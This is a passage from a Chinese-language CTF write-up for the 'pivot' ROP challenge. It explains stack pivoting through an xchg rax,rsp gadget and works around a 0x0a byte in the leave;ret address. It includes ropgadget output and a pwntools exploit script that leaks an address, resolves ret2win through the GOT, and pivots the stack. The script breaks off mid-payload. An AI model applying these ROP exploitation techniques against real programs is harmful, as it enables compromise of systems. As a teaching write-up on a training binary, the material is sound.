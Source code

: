 #### pivot
基本同上，但你可以尝试把修改 rsp 的部分也用 gadgets 来实现，这样做的好处是我们不需要伪造一个堆栈，即不用管 ebp 的地址。如：
```python
payload_2  = "A" * 40
payload_2 += p64(pop_rax)
payload_2 += p64(leakaddr)
payload_2 += p64(xchg_rax_rsp)
```
实际上，我本人正是使用这种方法，因为我在构建 payload 时，`0x0000000000400ae0 <+165>:   leave`，leave;ret 的地址存在截断字符 `0a`，这样就不能通过正常的方式写入缓冲区，当然这也是可以解决的，比如先将 `0a` 换成非截断字符，之后再使用寄存器将 `0a` 写入该地址，这也是通常解决缓冲区中截断字符的方法，但是这样做难度太大，不推荐，感兴趣的读者可以尝试一下。

```
$ ropgadget --binary pivot --only "mov|pop|call|add|xchg|ret"
0x0000000000400b09 : add rax, rbp ; ret
0x000000000040098e : call rax
0x0000000000400b05 : mov rax, qword ptr [rax] ; ret
0x0000000000400b00 : pop rax ; ret
0x0000000000400900 : pop rbp ; ret
0x0000000000400b02 : xchg rax, rsp ; ret
```
```python
from pwn import *

#context.log_level = 'debug'
#context.terminal = ['konsole']
io = process('./pivot')
elf = ELF('./pivot')
libp = ELF('./libpivot.so')

leave_ret = 0x0000000000400adf

foothold_plt     = elf.plt['foothold_function'] # 0x400850
foothold_got_plt = elf.got['foothold_function'] # 0x602048

pop_rax      = 0x0000000000400b00
pop_rbp      = 0x0000000000400900
mov_rax_rax  = 0x0000000000400b05
xchg_rax_rsp = 0x0000000000400b02
add_rax_rbp  = 0x0000000000400b09
call_rax     = 0x000000000040098e

foothold_sym = libp.symbols['foothold_function']
ret2win_sym  = libp.symbols['ret2win']
offset = int(ret2win_sym - foothold_sym) # 0x14e

leakaddr  = int(io.recv().split()[20], 16)

# calls foothold_function() to populate its GOT entry, then queries that value into EAX
#gdb.attach(io)
payload_1  = p64(foothold_plt)
payload_1 += p64(pop_rax)
payload_1 += p64(foothold_got_plt)
payload_1 += p64(mov_rax_rax)
payload_1 += p64(pop_rbp)
payload_1 += p64(offset)
payload_1 += p64(add_rax_rbp)
payload_1 += p64(call_rax)

io.sendline(payload_1)

# rsp = leakaddr
payload_2  = "A" * 40
payload_2 += p64(pop_rax)
payload_2 += p64(leakaddr)
```